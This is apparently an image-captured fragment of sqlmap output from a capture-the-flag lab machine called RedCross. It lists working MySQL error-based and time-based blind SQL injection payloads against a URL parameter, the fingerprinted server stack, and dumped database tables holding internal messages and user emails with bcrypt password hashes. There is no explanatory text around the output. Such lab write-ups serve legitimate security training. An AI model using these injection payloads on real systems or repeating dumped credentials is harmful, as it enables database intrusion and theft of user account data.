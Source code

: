         Type: error-based                                                        
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: o=9') AND (SELECT 8387 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(8387=8387,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vfSo&page=app
                                                                  
        Type: AND/OR time-based blind                         
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)      
        Payload: o=9') AND (SELECT * FROM (SELECT(SLEEP(5)))Uqaj)-- eNaD&page=app
    ---                                                             
    [17:43:34] [INFO] the back-end DBMS is MySQL        
    web server operating system: Linux Debian 9.0 (stretch)                     
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0                                             
    ...[snip]...                
    Database: redcross                                      
    Table: messages
    [8 entries]
    +----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
    | id | body                                                                                                                                                                                         | dest | origin | subject                                      |
    +----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
    | 1  | You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.              | 5    | 1      | Guest Account Info                           |
    | 2  | Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.                                                                                    | 2    | 4      | Problems with order 02122128                 |
    | 3  | Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?                                                   | 3    | 1      | Strange behavior                             |
    | 4  | Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.                                                                                                       | 4    | 2      | Problems with order 02122128                 |
    | 5  | Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!                                           | 2    | 3      | admin subd webapp problems                   |
    | 6  | Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR                                                      | 3    | 2      | admin subd webapp problems (priority)        |
    | 7  | Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...                                                                              | 1    | 2      | STOP checking messages from intra (priority) |
    | 8  | Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what could happen? Don't worry but fix it ASAP. | 2    | 1      | STOP checking messages from intra (priority) |
    +----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
    ...[snip]...                           
    Database: redcross                                                 
    Table: users                   
    [5 entries]                    
    +----+------+------------------------------+----------+--------------------------------------------------------------+
    | id | role | mail                         | username | password                                                     |
    +----+------+------------------------------+----------+--------------------------------------------------------------+
    | 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |             
    | 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
    | 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
    | 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
    | 5  | 1000 | non@available                | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
    +----+------+------------------------------+----------+--------------------------------------------------------------+
